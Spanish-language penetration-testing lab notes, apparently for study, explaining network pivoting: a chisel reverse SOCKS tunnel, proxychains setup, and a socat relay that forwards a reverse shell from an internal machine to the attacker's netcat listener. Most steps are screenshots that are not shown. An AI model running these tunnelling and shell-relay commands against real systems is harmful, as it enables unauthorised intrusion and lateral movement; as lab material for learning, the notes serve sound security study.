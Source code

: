 En la máquina 2, lo que debemos hacer es enviar el tráfico de esta máquina a la de atacante, y para ello usaremos chisel:
![[Mis apuntes/ANEXOS/Pasted image 20230823153251.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230823153300.png]]
Ahora tenemos que ponernos en la máquina atacante con chisel a modo de servidor:
```bash
./chisel server --reverse -p 1234
```
![[Mis apuntes/ANEXOS/Pasted image 20230823153329.png]]
Y ahora en la máquina 1 ejecutamos el chisel en modo cliente diciendo que pase por el puerto 1234 todo el tráfico remoto:
![[Mis apuntes/ANEXOS/Pasted image 20230823163522.png]]
```bash
./chisel client 10.10.10.12:1234 R:socks
```
![[Mis apuntes/ANEXOS/Pasted image 20230823163558.png]]
Y habremos recibido esta conexión también en la máquina atacante:
![[Mis apuntes/ANEXOS/Pasted image 20230823163612.png]]
En la máquina 2, vamos a crear un servidor con python por el puerto 80, que trataremos de visualizar desde la máquina atacante:
![[Mis apuntes/ANEXOS/Pasted image 20230823153731.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230823153748.png]]
Ahora que tenemos el tunel creado que nos une desde la máquina atacante a la máquina 2, debemos de configurar el proxychain de esta forma:
![[Mis apuntes/ANEXOS/Pasted image 20230823153919.png]]
Al ser la primera máquina que conectamos, tenemos que dejar la primera línea sin comentar y la segunda comentada:
![[Mis apuntes/ANEXOS/Pasted image 20230823153947.png]]
Y al final del todo tenemos que dejar esta línea:
![[Mis apuntes/ANEXOS/Pasted image 20230823154006.png]]
Y en el navegador ponemos el tunel:
![[Mis apuntes/ANEXOS/Pasted image 20230823154029.png]]
De tal forma que desde el navegador llegamos correctamente al puerto 80 de la máquina 2:
![[Mis apuntes/ANEXOS/Pasted image 20230823163929.png]]
Ahora, si queremos llegar a esta máquina desde el terminal, debemos de especificar que queremos que el tráfico pase por el proxychains de la siguiente forma:
![[Mis apuntes/ANEXOS/Pasted image 20230823164002.png]]
No obstante, si queremos llegar a esta máquina entablando una reverse shell, veremos que da error:
![[Mis apuntes/ANEXOS/Pasted image 20230824101226.png]]
Esto error ocurre porque tenemos que habilitar socat en la máquina 1 para que pueda haber comunicación entre la máquina 2 y la atacante, por tanto, para seguir avanzando, tenemos que ejecutar el socat dentro de la máquina 1, de tal forma que diremos que el resto del port forwarding que nos llegue lo envíe a la máquina atacante, por tanto lo descargamos:
![[Mis apuntes/ANEXOS/Pasted image 20230823154652.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230823154720.png]]
Nos compartimos el socat con la máquina 1:
![[Mis apuntes/ANEXOS/Pasted image 20230823155058.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230823155123.png]]
Y ahora ejecutamos socat de esta forma, donde diremos que todo lo que reciba la máquina1 por el puerto 1111 de la interfaz 20.20.20.13 lo envíe a la máquina kali  por el puerto 111, que es donde tendremos netcat esperando conexiones:
```bash
./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.12:111
```
![[Mis apuntes/ANEXOS/Pasted image 20230825154633.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230825154656.png]]
Y ahora si con la máquina 2 enviamos la reverse shell, debería de funcionar:
![[Mis apuntes/ANEXOS/Pasted image 20230825154713.png]]



